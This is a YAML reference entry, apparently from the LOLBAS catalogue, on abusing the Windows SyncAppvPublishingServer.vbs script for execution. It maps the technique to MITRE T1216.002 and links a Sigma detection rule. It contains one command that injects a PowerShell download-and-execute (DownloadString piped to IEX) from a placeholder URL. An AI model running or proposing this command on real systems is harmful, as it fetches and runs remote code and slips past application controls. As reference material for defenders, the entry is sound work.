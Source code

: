 ```yaml
---
Name: Syncappvpublishingserver.vbs
Description: Script used related to app-v and publishing server
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
    Description: Inject PowerShell script code with the provided arguments
    Usecase: Use Powershell host invoked from vbs script
    Category: Execute
    Privileges: User
    MitreID: T1216.002
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: PowerShell
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.vbs
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_syncappvpublishingserver_vbs_execute_psh.yml
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
  - Link: https://twitter.com/subTee/status/855738126882316288
Acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
  - Person: Casey Smith
    Handle: '@subtee'
---
```

